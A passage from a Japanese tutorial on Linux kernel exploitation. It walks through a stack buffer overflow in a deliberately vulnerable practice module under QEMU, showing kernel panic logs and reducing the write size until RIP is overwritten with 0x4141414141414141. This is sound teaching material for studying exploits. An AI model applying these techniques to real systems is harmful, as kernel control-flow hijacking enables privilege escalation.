 ```
R13: 00000000000002a8 R14: 00007ffe47aac5d0 R15: ffffc90000413ef8
FS:  00000000004051d8(0000) GS:ffff888003800000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffffc90000414000 CR3: 000000000317a000 CR4: 00000000000006f0
Kernel panic - not syncing: Fatal exception
Kernel Offset: disabled
```
何やら禍々しいメッセージが出力されました。
このようにカーネルモジュールが異常な処理を起こすと通常カーネルごと落ちてしまいます。その際クラッシュした原因と、クラッシュ時のレジスタの様子やスタックトレースが出力されます。この情報はKernel Exploitのデバッグで非常に重要です。

今回クラッシュの原因は
```
BUG: stack guard page was hit at (____ptrval____) (stack is (____ptrval____)..(____ptrval____))
kernel stack overflow (page fault): 0000 [#1] PREEMPT SMP PTI
```
となっています。`ptrval`というのはポインタですが、KADRにより隠されています。
レジスタの様子で気になるのはRIPですが、残念ながら0x414141414141414141にはなっていません。
```
RIP: 0010:memset_orig+0x33/0xb0
```
クラッシュの原因にも書かれているように、`copy_from_user`での書き込みの際にスタックの終端（guard page）に到達してしまったようです。書き込みすぎが原因なので、書き込む量を減らしてみましょう。
```c
write(fd, buf, 0x420);
```
するとクラッシュメッセージが変わります。
```
/ # ./pwn 
general protection fault: 0000 [#1] PREEMPT SMP PTI
CPU: 0 PID: 62 Comm: pwn Tainted: G           O      5.10.7 #1
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1.1 04/01/2014
RIP: 0010:0x4141414141414141
Code: Unable to access opcode bytes at RIP 0x4141414141414117.
RSP: 0018:ffffc90000413eb8 EFLAGS: 00000202
RAX: 0000000000000420 RBX: ffff888003149700 RCX: 0000000000000000
RDX: 000000000000007f RSI: ffffc90000413ea8 RDI: ffff88800315fc00
RBP: 4141414141414141 R08: 4141414141414141 R09: 4141414141414141
R10: 4141414141414141 R11: 4141414141414141 R12: 0000000000000420
R13: 0000000000000000 R14: 00007ffc38eb1360 R15: ffffc90000413ef8
FS:  00000000004051d8(0000) GS:ffff888003800000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 0000000000403000 CR3: 000000000316c000 CR4: 00000000000006f0
Call Trace:
 ? ksys_write+0x53/0xd0
 ? __x64_sys_write+0x15/0x20
 ? do_syscall_64+0x38/0x50
 ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
Modules linked in: vuln(O)
---[ end trace cb6ce0e7fb8d7c81 ]---
RIP: 0010:0x4141414141414141
Code: Unable to access opcode bytes at RIP 0x4141414141414117.
RSP: 0018:ffffc90000413eb8 EFLAGS: 00000202
RAX: 0000000000000420 RBX: ffff888003149700 RCX: 0000000000000000
RDX: 000000000000007f RSI: ffffc90000413ea8 RDI: ffff88800315fc00
RBP: 4141414141414141 R08: 4141414141414141 R09: 4141414141414141
R10: 4141414141414141 R11: 4141414141414141 R12: 0000000000000420
R13: 0000000000000000 R14: 00007ffc38eb1360 R15: ffffc90000413ef8
FS:  00000000004051d8(0000) GS:ffff888003800000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 0000000000403000 CR3: 000000000316c000 CR4: 00000000000006f0
Kernel panic - not syncing: Fatal exception
Kernel Offset: disabled
```
今度はgeneral protection faultになり、RIPが取れています！